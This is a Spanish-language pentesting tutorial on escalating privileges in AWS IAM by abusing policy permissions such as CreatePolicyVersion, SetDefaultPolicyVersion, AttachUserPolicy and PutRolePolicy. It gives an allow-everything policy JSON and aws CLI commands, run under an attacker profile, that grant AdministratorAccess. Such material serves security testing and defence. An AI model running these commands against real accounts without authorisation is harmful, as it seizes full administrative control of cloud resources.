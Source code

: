 # Intro

Las políticas son el mecanismo principal por el cual se otorgan o restringen permisos en AWS. Aunque los usuarios pueden ser asignados directamente a grupos o roles, son las políticas adjuntas a estos grupos y roles las que determinan efectivamente los accesos permitidos. Esto significa que un control inadecuado sobre quién puede crear o modificar políticas puede abrir la puerta a cambios no autorizados que amplíen los permisos más allá de lo necesario o seguro.

# Permisos críticos sobre políticas

| Permiso | Descripción |
|----|----|
|iam:CreatePolicyVersion | Permite a un usuario crear nuevas versiones de una política agregando a la misma derechos excesivos|
|iam:SetDefaultPolicyVersion | Habilita a los usuarios a cambiar la versión por defecto de una política. Un atacante podría revertir una política a una versión anterior con permisos más amplios |
|iam:AttachUserPolicy | Permite adjuntar políticas a usuarios de manera directa, logrando así conseguir acceso no autorizado a recursos críticos |
|iam:AttachGroupPolicy | Permite asignar políticas a un grupo permitiendo así ampliar los permisos a los miembros del grupo |
|iam:AttachRolePolicy | Permite adjuntar políticas a roles |
|iam:PutUserPolicy, iam:PutGroupPolicy, iam:PutRolePolicy | Permiten la inserción de políticas en línea directamente en usuarios, grupos y roles, respectivamente. Estos permisos permiten la modificación directa de los permisos asignados, facilitando la escalada de privilegios. |

## iam:CreatePolicyVersion

Si el usuario que dominamos tiene este privilegio, podemos crear una nueva política que nos permita usar cualquier accion sobre cualquier recurso, asignarla como nueva versión de una política sobre la que tenemos poder y defaultearla teniendo así todos los privilegios de un admin.

#### Política nueva

    {
      "Version": "2012-10-17",
      "Statement": [
        {
          "Sid": "PermitirTodo",
          "Effect": "Allow",
          "Action": "*",
          "Resource": "*"
        }
      ]
    }

#### Asignación de política

    aws iam create-policy-version --policy-arn <arn_politica_victima> --policy-document file://admin_politica.json --set-as-default --profile <perfil_atacante>

## iam:SetDefaultPolicyVersion

Los usuarios con el permiso iam:SetDefaultPolicyVersion pueden establecer qué versión de la política es la versión por default. Si tenemos estos permisos sobre una política en cuyas versiones anteriores se encuentre una mala configuración que permita abusos, podemos aprovecharla para volver esa versión como default.

Una vez que encontramos la versión que nos brinde más privilegios podemos setearla como versión por default:

    aws iam set-default-policy-version --policy-arn <arn_politica> --version-id <versión_a_defaultear> --profile <perfil_atacante>

## iam:AttachUserPolicy

Un atacante con el permiso iam:AttachUserPolicy puede aumentar los privilegios adjuntando una política a un usuario al que tiene acceso, agregando los permisos de esa política al atacante. Podemos entonces adjuntarnos las políticas de administrador a nuestro usuario:

    aws iam attach-user-policy --user-name <user> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile <perfil_atacante>

## iam:AttachGroupPolicy
Un atacante con el permiso puede aumentar los privilegios adjuntando una política a un grupo del que forma parte, agregando los permisos de esa política al atacante. En este caso, simplemente necesitamos adjuntar la política de administrador a un grupo al que pertenecemos o al que podemos llegar:

    aws iam attach-group-policy --group-name <grupo> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile <perfil_atacante>

## iam:AttachRolePolicy

Un atacante con el permiso puede aumentar los privilegios adjuntando una política a una función a la que tiene acceso, agregando los permisos de esa política al atacante. En este caso podemos adjuntar las políticas de administrador a un rol que poseemos o al que podemos acceder mediante otro user.

    aws iam attach-role-policy --role-name <rol> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile <perfil_atacante>


## iam:PutUserPolicy, PutGroupPolicy, PutRolePolicy
Un atacante con el permiso puede aumentar los privilegios creando o actualizando una política en línea para un usuario, grupo o rol al que tiene acceso, agregando los permisos de esa política al atacante.

En este caso, creamos una nueva política con todos los privilegios:

    {
      "Version": "2012-10-17",
      "Statement": [
        {
          "Sid": "PermitirTodo",
          "Effect": "Allow",
          "Action": "*",
          "Resource": "*"
        }
      ]
    }

#### adjuntar a user:

    aws iam put-user-policy --user-name <user> --policy-name politica-PrivEsc --policy-document file://admin_politica.json --profile <perfil_atacante>

#### Adjuntar a grupo:

    aws iam put-group-policy --group-name <group> --policy-name politica-PrivEsc --policy-document file://admin_politica.json --profile <perfil_atacante>

#### Adjuntar a rol

    aws iam put-role-policy --role-name <rol> --policy-name politica-PrivEsc --policy-document file://admin_politica.json --profile <perfil_atacante>
